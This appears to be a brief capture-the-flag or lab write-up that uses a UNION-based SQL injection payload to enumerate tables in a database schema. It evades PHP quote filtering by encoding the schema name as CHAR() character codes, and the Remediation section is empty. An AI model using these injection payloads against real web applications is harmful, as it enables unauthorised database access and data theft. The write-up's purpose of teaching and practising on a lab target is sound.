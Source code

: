 # Brute Force

From exploiting [SQL Injection Vulneribilities](../0x0a-sql_injection-members/README.md), it is recoginzed that the schema `Member_Brute_Force` existed on the database. We know the schema exists, but certainly don't know what tables, or other information exists in the schema.

But using the query `1 and 1=1 UNION SELECT table_name, 2 FROM information_schema.tables WHERE schema_name='Member_Brute_Force'` will give an error, as the quotation would cause an error from the php.

In order to bypass, following script will create a set of char:

```
$ python -c 'print([ord(c) for c in "Member_Brute_Force"]);'
[77, 101, 109, 98, 101, 114, 95, 66, 114, 117, 116, 101, 95, 70, 111, 114, 99, 101]
```

so this can be directly used as this
```
where='Member_Brute_Force'
where=CHAR([77, 101, 109, 98, 101, 114, 95, 66, 114, 117, 116, 101, 95, 70, 111, 114, 99, 101])
```

by doing so, we can find `db_default` table in `Member_Brute_Force` schema:

(Image Here)



## Remediation


